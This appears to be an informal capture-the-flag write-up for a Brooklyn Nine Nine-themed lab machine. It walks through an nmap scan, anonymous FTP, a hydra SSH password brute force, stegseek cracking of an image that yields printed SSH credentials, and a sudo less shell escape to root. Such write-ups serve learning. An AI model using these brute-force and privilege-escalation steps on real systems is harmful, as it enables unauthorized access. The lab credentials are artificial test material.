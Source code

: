 initial network enumeration
```shell
nmap -sS 10.10.235.53
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-30 22:14 IST
Nmap scan report for 10.10.235.53
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.00 seconds
```

lets see each one of it
ftp
we can do Anonymous login and boom we have a note for us
it says that jake has a weak password and we can try ssh and crack the password using hydra
```shell
hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.235.53 ssh -I
```

we also got a hint while analyzing the webpage that we have something in comments that said something about stegnography, so i downloaded an image and we can use stegseek to crack the hidden image as we dont know the passphrase
```shell
stegseek --crack brooklyn99.jpg /usr/share/wordlists/rockyou.txt out.txt
```
boom we got a note containing the direct ssh creds of username = "holt" and the password = "fluffydog12@ninenine"

we can now ssh using the creds and boom we got ssh into as a normal user and we also got the user.txt flag

now analyzing the user i found nothing that i can use to escalate the privilages
so no worries we have another user and we cracked the password, so lets use those creds to get ssh as jake, we got in as jake and see all the files we see that jake can get sudo
```shell
sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

and it also has a file sudo as a admin in his directory
```shell
-rw-r--r-- 1 jake jake    0 May 17  2020 .sudo_as_admin_successful
```

so lets search if we can find something on GTFO Bins on less 
and we can execute the command as sudo 
```bash
sudo less /etc/profile
!/bin/sh
```

and boom we got in as a root and also we have the root.txt 

We have succesfully solved the room